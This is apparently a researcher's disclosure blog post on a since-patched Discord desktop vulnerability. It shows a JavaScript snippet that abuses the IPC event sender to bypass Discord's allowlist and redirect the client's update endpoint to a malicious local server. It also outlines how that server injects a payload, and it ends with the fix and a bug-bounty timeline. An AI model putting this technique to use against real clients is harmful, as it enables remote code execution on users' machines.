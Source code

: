 ```yaml
---
title: "Discord 0-click XSS to RCE (2022)"
description: "IPC allowlist bypass allowing to arbitary IPC calls setting a malicious update endpoint"
date: 2022-10-07
draft: false
---
```


## Discord's IPC Allowlist

Discord expose a wrapped version of `ipcRenderer` for security, see [my 1-click Discord XSS to RCE](/discord-1click-xss-to-rce) for more details on Electron's IPC. It's implemented with a [Set](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Set):

```js
const discordPrefixRegex = /^DISCORD_/;
function getDiscordIPCEvent(ev) {
  return discordPrefixRegex.test(ev) ? ev : `DISCORD_${ev}`;
}

const RENDERER_IPC_SEND_WHITELIST = new Set([ /* ... */ ]);
function send(ev, ...args) {
  const prefixedEvent = getDiscordIPCEvent(ev);

  if (!RENDERER_IPC_SEND_WHITELIST.has(prefixedEvent)) {
    throw new Error('cannot send this event');
  }

  ipcRenderer.send(prefixedEvent, ...args);
}
```

This restricts the IPC calls we can make heavily, so it becomes not very useful to us.


## Bypassing Discord's IPC Protections

With Electron's `on` handler for IPC it includes the `sender` of the event, with Discord's wrapper the original event is unmodified and passed through:

```js
function on(ev, callback) {
  ipcRenderer.on(getDiscordIPCEvent(ev), callback);
}
```

The `sender` allows use to bypass Discord's protections and use IPC arbitrarily with `event.sender.on`, `event.sender.invoke`, etc. So now we have arbitary IPC, how can we get to Node execution?


## Discord Settings

Discord has a settings file, `settings.json`, which contain several options as key/value pairs in an object. One of these options is setting the update endpoint to update Discord's client from (`NEW_UPDATE_ENDPOINT` on Windows, `UPDATE_ENDPOINT` on Linux/Mac). I have previously made [open source recreations of Discord's update server(s)](https://github.com/Goose-Nest/GooseUpdate).

Normally, Discord's IPC protections (allowlist) prevents us from modifying it, but with our bypass we can freely do it with `DISCORD_SETTINGS_SET`.


## Creating a Malicious Update Server

Discord's update server is quite complex and general so I won't go into details in this post. It uses native modules which I also explained in [my 1-click Discord XSS to RCE](/discord-1click-xss-to-rce). I made a script which compiles a server by:
1. Get the payload and add it into the `discord_desktop_core`
2. Recompute the hash for the module and bundle it into the expected format for the client
3. Download the official update manifest
4. Modify it so desktop core's version is increased causing it to update, and the hash matches the new one with our payload injected
5. Point desktop core's download to our server and leave the rest to the official server
6. Start a HTTP server on localhost with our modified manifest and desktop core


## Injecting Our Malicious Update Server

Since we now have our malicious update server and a way to add it to the user's settings, we can make our exploit:
1. Bypass Discord's IPC protections to achieve arbitary IPC
2. Set a malicious update endpoint for the client to use
3. Restart so the client is forced to update (Discord's client updates on every start)
4. Our payload is executed

Which looks like:

```js
DiscordNative.ipc.on('DISCORD_UPDATER_HISTORY_RESPONSE', function ({ sender }) { // Listen to event
  sender.invoke('DISCORD_SETTINGS_SET', 'NEW_UPDATE_ENDPOINT', 'http://localhost:9999/'); // Set our custom malicious update server to be used
  DiscordNative.app.relaunch(); // Relaunch to force update now
});

DiscordNative.ipc.send('DISCORD_UPDATER_HISTORY_QUERY_AND_TRUNCATE'); // Trigger event so our listener is called
```

## The Fix

The fixed code makes sure the event isn't included in the callback (taken directly from the original code):

```js
function on(ev, callback) {
  ipcRenderer.on(getDiscordIPCEvent(ev), function () {
    // Sender is dangerous, do not expose.
    callback.apply(callback, [null, ...[...arguments].slice(1)]);
  });
}
```


## Report Timeline

- 26th July 2022: Reported to Discord via HackerOne
- 27th July 2022: Confirmation of a high-severity issue
- 16th August 2022: Fixed in Canary
- 19th August 2022: Fixed in Stable
- 2nd September 2022: Confirmation of fix from Discord
- 2nd September 2022: $1500 bounty from Discord